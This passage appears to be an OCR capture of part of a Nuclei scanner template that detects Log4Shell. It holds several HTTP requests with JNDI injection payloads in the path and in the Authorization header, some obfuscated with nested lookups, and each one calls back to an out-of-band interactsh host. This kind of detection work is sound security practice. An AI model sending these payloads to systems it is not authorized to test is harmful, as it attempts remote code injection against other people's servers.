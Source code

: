 ```yaml
        GET //{{Path}}${jndi:dns://{{interactsh-url}}:80/d HTTP/1.1
        Host: {{Hostname}}
    matchers-condition: or
    matchers:
    - type: word
      part: interactsh_protocol # Confirms the DNS Interaction
      words:
        - "dns"

  - raw:
    - | 
        GET /{{Path}}${${lower:jn}di:${lower:dn}s://{{interactsh-url}}:80/d HTTP/1.1
        Host: {{Hostname}}
    matchers-condition: or
    matchers:
    - type: word
      part: interactsh_protocol # Confirms the DNS Interaction
      words:
        - "dns"

  - raw:
    - | 
        GET //{{Path}}${${lower:jn}di:${lower:dn}s://{{interactsh-url}}:80/d HTTP/1.1
        Host: {{Hostname}}
    matchers-condition: or
    matchers:
    - type: word
      part: interactsh_protocol # Confirms the DNS Interaction
      words:
        - "dns"
    # TODO maybe encoding
      
  - raw:
    - | 
        GET /{{Path}}?${${lower:jn}di:${lower:dn}s:://{{interactsh-url}}:80/d HTTP/1.1
        Host: {{Hostname}}
    matchers-condition: or
    matchers:
    - type: word
      part: interactsh_protocol # Confirms the DNS Interaction
      words:
        - "dns"

  - raw:
    - | 
        GET /{{Path}} HTTP/1.1
        Host: {{Hostname}}
        Authorization: {{auth_type }} ${jndi:dns://{{interactsh-url}}:80/o

    payloads:
      auth_type:
        - Bearer
        - Oauth
        - Token
        - Basic
    matchers-condition: or
    matchers:
    - type: word
      part: interactsh_protocol # Confirms the DNS Interaction
      words:
        - "dns"

  - raw:
```
